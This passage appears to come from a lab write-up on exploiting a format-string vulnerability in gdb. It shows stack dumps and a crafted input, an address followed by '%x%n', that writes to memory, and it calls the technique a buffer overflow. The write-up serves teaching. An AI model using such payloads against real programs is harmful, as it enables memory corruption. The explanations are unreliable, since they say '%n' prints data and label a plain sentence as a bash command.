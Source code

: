 <img src="./img/Screenshot 2024-10-13 122411.png"></img>
Execute the program with crafted input, attempting to exploit the buffer overflow. The `%x%n` format specifier is used to print data from the stack.
```bash
x/20wx $esp
```
Check the stack contents again to see how it has changed after the last run.
```bash
run $(echo -e "\x2c\xd3\xff\xff")%x%n
```
Run the program with a different crafted input, further testing for buffer overflow effects and the ability to print stack data.
<img src="./img/Screenshot 2024-10-13 122609.png"></img>
```bash
x/20wx $esp
```

Inspect the stack contents once more to analyze the changes after the new input.
```bash
convert hex value to decimal value
```